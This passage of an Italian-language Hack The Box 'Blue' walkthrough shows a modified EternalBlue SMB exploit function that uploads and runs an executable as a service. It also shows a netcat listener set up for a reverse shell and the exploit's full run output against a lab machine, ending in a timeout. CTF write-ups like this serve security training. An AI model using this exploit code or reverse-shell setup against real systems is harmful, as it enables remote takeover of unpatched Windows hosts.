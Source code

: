 Modifichiamo ancora l'exploit

```python2
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()

        print('creating file c:\\pwned.txt on the target')
        tid2 = smbConn.connectTree('C$')
        fid2 = smbConn.createFile(tid2, '/pwned.txt')
        smbConn.closeFile(tid2, fid2)
        smbConn.disconnectTree(tid2)

        smb_send_file(smbConn, '/home/kali/htb/blue/eternal-blue.exe', 'C', '/eternal-blue.exe')
        service_exec(conn, r'cmd /c C:\eternal-blue.exe')
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."
```

Ci mettiamo in ascolto con nc 

```bash
┌──(root㉿kali)-[/home/kali/htb/blue]
└─# nc -lnvp 4444    
listening on [any] 4444 ...
```

Siamo pronti a lancire l'exploit

```bash
┌──(root㉿kali)-[/home/kali/htb/blue]
└─# python2 42315.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa8002bdbba0
SESSION: 0xfffff8a012828660
FLINK: 0xfffff8a00805a048
InParam: 0xfffff8a00809915c
MID: 0x1807
unexpected alignment, diff: 0x-3ffb8
leak failed... try again
CONNECTION: 0xfffffa8002bdbba0
SESSION: 0xfffff8a012828660
FLINK: 0xfffff8a0080ab088
InParam: 0xfffff8a0080a515c
MID: 0x1803
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\pwned.txt on the target
Opening SVCManager on 10.10.10.40.....
Creating service zQeE.....
Starting service zQeE.....
The NETBIOS connection with the remote host timed out.
Removing service zQeE.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```
